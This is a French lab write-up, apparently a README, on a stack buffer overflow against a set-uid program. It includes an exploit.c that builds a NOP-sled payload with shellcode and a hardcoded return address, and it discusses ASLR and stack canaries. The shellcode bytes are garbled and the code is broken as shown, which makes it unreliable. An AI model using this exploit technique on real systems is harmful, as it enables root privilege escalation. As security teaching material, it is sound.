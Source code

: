 
# demo-buffer-overflow

Le programe `stack.c` contient une vulnéarbilité exploitable par injection dans le buffer, qui est assez grand 517 octets. Afin de gagner les privilèges root, il sera executé comme set-uid et le buffer contiendra le shellcode necessaire.

Note: Cela à été fait sur une platforme `i486 gnu/linux`.

## Task I 

`-fno-stack-protector` va désactiver la stack smashing protection mechanism de gcc, sur le programe stack.

j'ai modifié le badfile pour y inserer 517 caractère `"0x90"`, code hexa de l'instruction NOP, qui s'avèrera très utile. L'execution de stack renvoi un segmentation fault. l'analyse du bug avec gdb retourne: program terminated with signal 11, Segmentation Fault.. l'explication est aussi donnée: address `0x90909090` is unreacheable. 

info registers sur la console gdb, retourne que eip l'instruction pointer est a `0x90909090`. Le programe a été hacker, et son flux détourné en ecrasant l'addresse de retour de la fonction `bof()`. 

L'idée est de mettre le shellcode quelque part en memoire, à la fin du call stack, est d'utilisé l'addresse de retour, qu'il faut bien determiner, pour y pointer sur un des NOP, le programme va glisser le long de tous ces NOP jusqu'à atteindre le shellcode. 

Avec un des privilège root sur le programme stack de type set-uid, notre payload de shellcode nous donnera un accés root sur la machine.

strcopy() étant à l'origine de la plupart des attacks par bof, la tendance des développeurs est de l'éviter. Des overflow peuvent aussi aparaitre dans les boucles mal indexé.

Le programe exploit.c généré est:

    char shellcode[]= 
    "310"             /* xorl    
    "50"                 /* pushl   
    "68""//sh"           /* pushl   0x6e69622f            */ 
    "893"             /* movl    
    "50"                 /* pushl   
    "53"                 /* pushl   
    "901"             /* movl    
    "99"                 /* cdql                           */ 
    "00b"             /* movb    0x80                  */ 
    ;
    
    void main(int argc, char **argv) 
            
            char buffer[517]; 
            FILE *badfile; 
     
            /* Initialize buffer with 0x90 (NOP instruction) */ 
            memset(&buffer, 0x90, 517); 
             
            /* we need to over write the return address by our own one, this will do it. The address was chosen after incrementing (randomly) the str variable address of the bof() function.. */ 
            long addr = 0xbffff353; 
            long *ptr = (long *) (buffer + 24); 
            *ptr = addr; 
             
            /* we put the shellcode at the end of the buffer, so pointing randomly before it would execute it, this technique is called nop-sled, there is plenty of others */ 
            memcpy(&buffer[517-strlen(shellcode)], shellcode, strlen(shellcode)); 
             
            /* Save the contents to the file "badfile" */ 
     	badfile = fopen("./badfile", "w"); 
            fwrite(buffer, 517, 1, badfile); 
            fclose(badfile); 

L'execution de stack retourne alors ce qu'on voit sur la figure . l'userid effective est bien root.

J'ai determiner l'addresse de retour en choisissant au hazard une addresse un peu plus loin que str (info args), qu'on determine avec le debugger. en effet en executant pas à pas le programme, et en visualisant les variables, on récupère `&str=0xbffff317`.

Avec l'instruction `memcpy(&buffer[517-strlen(shellcode)], shellcode, 
strlen(shellcode));` on met le shellcode à la fin du badfile, après tous les nop.

buffer + 24 après quelques essais, en remplissant la mémoire peut à peu de façon dichotomique, et en réservant 4 octets à l'adresse.

on retrouve l'addresse de retour de call bof dans la sortie du programe `objdump -d: 8048494`, visualisé le stack nous permet de retrouver cette addresse, [figure].. on essaye de l'ecraser avec le badfile, en donnant une addresse plus utile...

On examine la mémoire et on trouve bien notre addresse de retour..

On utilise la commande d'exploration pour voir le contenue du stack.. tout y est, même l'addresse du shell, qu'il suffira de copier après dans l'exploit pour rediriger le programme vers elle.

# Task II  

Yes we still got a shell as a root user.. c'est pas normal, bash possède un mechnisme de sécurité, qui lâche les privilèges setuid, quand ils sont possédé par un root. En effet il fallait recompilé exploit :)

On obtient un shell non root.
    
Using /bin/sh as bourne again shell    

Pour obtenir un shell root, dans ce cas, on pourait modifier le shellcode; on y inserant l'equivalent en optcode de l'instruction setuid(0). On peut utilisé metasploit pour générer ce code.

# Task III 

La randomisation de l'addresse tend à rendre la tâche du hackeur plus difficile, mais pas impossible. Elle applique des algorithmes qui range de façon aléatoires, dans la mémoire, les données clef d'un programme, notemment le call stack.. Ce qui augmente l'espace memoire sur lequelle l'attaquant aura à deviner.

On effet en modifiant le programe pour qu'il affiche l'addresse du buffer à chaque execution on obtient des résultats tous à fait aléatoire.

Randamized memory allocation
    
Faire tourner une ou plusieurs fois ne m'a pas servit à grand chose..

# Task IV 

Ce que ça fait c'est qu'elle place lors de l'execution, un mot dans chauque instruction de retour, choisi au hazard à l'execution à partir du fichier /dev/urandom s'il existe.. ou avec un hash sur le timestamp..

ceci va arreter l'execution si la valeur de retour d'une fonction à été ecraser. Cela rend plus difficile l'attack, plusieurs solutions néamoins existe, notemment essayeé d'ecraser d'autres pointeurs que l'adresse de retour..
